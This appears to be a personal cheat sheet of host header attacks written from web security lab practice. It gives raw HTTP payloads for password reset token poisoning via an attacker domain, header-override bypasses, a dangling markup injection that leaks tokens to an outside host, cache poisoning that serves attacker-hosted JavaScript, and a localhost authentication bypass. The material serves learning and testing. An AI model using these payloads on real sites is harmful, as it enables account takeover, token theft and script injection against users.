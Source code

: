 # Host Header Attacks

- ## Techniques & Bypasses

### Reset Password Poisoning

##### Host Header

```http
POST /forgot-password HTTP/2
Host: xle0x.com

username=carlos
```

The victim will click on the link `https://xle0x.com/reset-password?token=blahdfsfjf`

This sends the token to the `xle0x.com` server's logs.

> 📘 **You could try to add another `Host` header with your server.**

##### Other Headers

```http
X-Forwarded-For: xle0x.com
X-Forwarded-Host: xle0x.com
X-Forwarded-Server: xle0x.com
X-HTTP-Host-Override: xle0x.com
Forwarded: xle0x.com
X-Host: xle0x.com
```

##### SUPPLY ABSOLUTE URL

```http
GET **https://vulnerable-website.com/** HTTP/1.1  
**Host: xle0x.com**
```

##### ADD A LINE WRAPPING

```http
GET /blah HTTP/1.1  
	Host: xle0x.com 
Host: vulnerable-website.com
```

##### Dangling markup injection

```http
POST /forgot-password HTTP/2
Host: 0a6b006704acc64181b8840800d60033.web-security-academy.net:1212"><img src="//xle0x?token=

username=carlos
```

When we change the host to `xle0x.com` I got 503 Gateway Error. But when I added the port part,  I bypassed it.
```html
"><img src="//xle0x?token=
```
This code called Dangling markup as it doesn't have a ending tag. It's trying to request your server. (The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include [CSRF](https://portswigger.net/web-security/csrf) tokens, email messages, or financial data.) This is used to bypass some filters and [content security policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) ([CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)).

---
### Web cache poisoning

###### Request:
```http
GET / HTTP/1.1
Host: 0a3100ec03d5949b826cbf3e00670008.h1-web-security-academy.net
Host: xle0x.com
```
###### Response:
```html
<script type="text/javascript" src="//xle0x.com/resources/js/tracking.js"></script>
```

After It got reflected I created a js file with the same path on my server. and the code executed!

### authentication bypass 

##### Request:
```http
GET /admin HTTP/2
Host: vulnerable-website.com
```

##### Response:
```http
HTTP/2 401 Unauthorized
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5707
```

> 📘 change the host to `localhost` or `127.0.0.1` and you may bypass it.
